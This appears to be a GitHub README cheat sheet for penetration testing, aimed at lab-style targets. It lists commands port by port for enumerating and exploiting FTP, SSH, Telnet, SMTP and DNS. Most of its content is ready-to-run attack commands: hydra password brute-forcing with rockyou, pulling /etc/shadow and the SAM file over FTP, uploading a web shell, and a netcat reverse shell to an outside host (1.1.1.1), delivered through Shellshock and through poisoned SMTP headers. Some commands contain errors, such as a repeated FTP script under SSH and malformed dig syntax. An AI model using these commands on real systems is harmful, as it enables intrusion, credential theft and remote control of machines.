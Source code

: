 > Adding constantly content, depending on free time :)

> Instead of writing a list of tasks to perform on each port/service or using old tools, I will write the full command with arguments to enumerate and (possibly) exploit it with newest tools. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
**Enumeration**
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * Reuse credentials from other local services
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common TCP ports 
-------------
### 21 (FTP)
**Enumeration**
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
** Exploitation**
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
**Enumeration**
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
**Exploitation**
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
    
### 23 (Telnet)
**Exploitation**
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip telnet -t 1``
    
### 25 (SMTP)
**Enumeration**
  * Enum users
    * `smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $ip`
**Exploitation**
  * Send mail with malicious parameters: 
    * ``ehlo server.com ``
    ``mail from: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``rcpt to: 'nc 1.1.1.1 80 -e /bin/bash' ``
    ``data
    Subject: nc 1.1.1.1 80 -e /bin/bash ``
    
 ### 53 (DNS)
**Enumeration**
  * Zone Transfer:
    ``dig @axfr @$ip server.com +nocookie
